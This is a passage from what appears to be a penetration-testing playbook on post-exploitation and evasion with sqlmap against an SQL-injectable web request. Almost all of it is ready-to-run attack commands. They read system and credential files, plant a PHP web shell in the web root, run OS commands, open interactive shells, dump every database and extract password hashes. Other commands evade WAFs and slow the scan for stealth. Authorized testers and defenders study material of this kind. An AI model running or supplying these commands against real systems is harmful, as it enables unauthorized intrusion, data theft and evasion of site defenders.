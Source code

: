 
## Phase 6: Post-Exploitation

### 6.1 File System Access
```bash
# Test file read capabilities
sqlmap -r request.txt --file-read="/etc/passwd" --batch
sqlmap -r request.txt --file-read="/var/www/html/config.php" --batch

# Attempt file write (if DBA)
sqlmap -r request.txt --file-write="shell.php" --file-dest="/var/www/html/shell.php" --batch
```

### 6.2 Command Execution
```bash
# Try OS command execution
sqlmap -r request.txt --os-cmd="whoami" --batch
sqlmap -r request.txt --os-cmd="id" --batch

# Get interactive shells
sqlmap -r request.txt --os-shell --batch
sqlmap -r request.txt --sql-shell --batch
```

### 6.3 Database Takeover
```bash
# Full database dump (if time permits)
sqlmap -r request.txt --dump-all --exclude-sysdbs --batch

# Extract all user credentials
sqlmap -r request.txt --passwords --batch
```

---

## Phase 7: Evasion & Advanced Techniques

### 7.1 WAF Bypass
```bash
# If initial scans are blocked:
1. Use tamper scripts
sqlmap -r request.txt --tamper="space2comment,randomcase" --batch

2. Reduce detection footprint
sqlmap -r request.txt --delay=3 --random-agent --batch

3. Use specific techniques
sqlmap -r request.txt --technique=T --time-sec=10 --batch  # Time-based only
```

### 7.2 Stealth Approach
```bash
# Low and slow methodology
sqlmap -r request.txt --delay=5 --timeout=30 --retries=1 --technique=B --batch

# Use proxy for monitoring
sqlmap -r request.txt --proxy="http://127.0.0.1:8080" --batch
```
